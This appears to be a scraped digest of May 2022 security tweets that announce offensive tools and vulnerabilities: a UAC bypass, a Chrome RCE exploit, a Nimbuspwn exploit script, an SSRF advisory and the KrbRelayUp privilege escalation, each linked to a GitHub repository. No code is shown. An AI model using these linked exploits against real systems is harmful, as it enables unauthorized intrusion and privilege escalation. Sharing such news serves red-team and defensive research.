<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# ntlmrelay
**https://twitter.com/ntlmrelay/status/1521821603746750465 _at 2022-05-04 11:58:39_**
<blockquote>
📌Beacon Object File (#BOF) implementation of Event Viewer deserialization #UAC bypass 
➡️https://t.co/eVfdfdrocd
📌EventViewer-UACBypass (#powershell)
➡️https://t.co/wZCCwAWXMr
(Octoberfest7 @orange_8361 @csenox1)

#redteam #blueteam #threathunting #cobaltstrike https://t.co/c3VSkoG7Za
</blockquote>

* https://github.com/Octoberfest7/EventViewerUAC_BOF
* https://github.com/CsEnox/EventViewer-UACBypass

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# _ForrestOrr
**https://twitter.com/_ForrestOrr/status/1521445312405065728 _at 2022-05-03 11:03:24_**
<blockquote>
I'm proud to release my first Google Chrome RCE derived from the most fascinating and mind bending exploit I have yet analyzed: CVE-2019-13720 Wizard Opium. This is a beautiful bug which I have crafted into an exploit bypassing ASLR, CFG and CET on Win10 https://t.co/RhMJ2nmVd4 https://t.co/1RMH4mBq9s
</blockquote>

* https://github.com/forrest-orr/WizardOpium

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>169</code></td>
<td>Favorites: <code>623</code></td>
</tr></table>

---

# rushisec
**https://twitter.com/rushisec/status/1521416035773161472 _at 2022-05-03 09:07:04_**
<blockquote>
My exploit script for Nimbuspwn (CVE-2022-29799/CVE-2022-29800) has been released and is available below. Method for hitting the race is a little lazy but usually works in 12 attempts or less. Comes with a Sigma rule for blue teamers. Have fun! 
https://t.co/BfmVVY9DxA
</blockquote>

* https://github.com/Immersive-Labs-Sec/nimbuspwn

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>8</code></td>
</tr></table>

---

# threatintelctr
**https://twitter.com/threatintelctr/status/1521145802470694913 _at 2022-05-02 15:13:15_**
<blockquote>
🚨 NEW: CVE-2022-25850 🚨 The package https://t.co/hcKlvfyzcs before 1.0.0 are vulnerable to Server-side Request Forgery (SSRF) when interceptor mode is set to proxy. It occurs when an HTTP request is made ... (click for more)  https://t.co/RQ5JH7qkHL
</blockquote>

* http://github.com/hoppscotch/proxyscotch
* https://nvd.nist.gov/vuln/detail/CVE-2022-25850

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# threatmeter
**https://twitter.com/threatmeter/status/1521024110855344131 _at 2022-05-02 07:09:41_**
<blockquote>
CVE-2022-25850 The package https://t.co/5pu92BxQRg before 1.0.0 are vulnerable to Server-side Request Forgery (SSRF) when interceptor mode is set to proxy. It occurs when an HTTP request is made by a backend server to an untrusted URL submitted… https://t.co/LFnlF0LZ76
</blockquote>

* http://github.com/hoppscotch/proxyscotch
* https://ift.tt/urFUiAI

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1520721189517340673 _at 2022-05-01 11:05:59_**
<blockquote>
KrbRelayUp - a universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings).

- privEsc for everyone 😎

#infosec #pentest #redteam 
https://t.co/u6dUxHBLIs https://t.co/6Rkyojbz9Y
</blockquote>

* https://github.com/Dec0ne/KrbRelayUp

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

